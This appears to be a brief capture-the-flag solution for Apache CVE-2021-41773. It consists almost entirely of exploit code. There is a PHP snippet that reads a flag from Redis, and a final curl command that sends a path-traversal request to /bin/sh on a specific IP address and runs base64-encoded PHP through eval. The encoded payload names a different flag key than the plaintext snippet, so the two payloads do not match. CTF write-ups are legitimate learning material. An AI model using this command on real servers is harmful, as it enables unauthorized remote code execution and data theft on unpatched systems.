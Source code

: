 ## Vulnerability
**Apache CVE-2021-41773 -> RCE -> Include vendor redis -> Get Flag**

## PHP Payload
```
require '/var/www/html/vendor/autoload.php'; $redis = new Predis\Client('tcp://redis:6379'); echo $redis->get("flag_gwej_anime");
```

## Final Payload
```
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; php -r \"eval(base64_decode('cmVxdWlyZSBfX0RJUl9fIC4gJy8uLi92ZW5kb3IvYXV0b2xvYWQucGhwJzsgJHJlZGlzID0gbmV3IFByZWRpc1xDbGllbnQoJ3RjcDovL3JlZGlzOjYzNzknKTsgZWNobyAkcmVkaXMtPmdldCgiZmxhZ19zdXBlcl9pZG9sIik7'));\"" "http://103.144.22.12:5002/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"
```

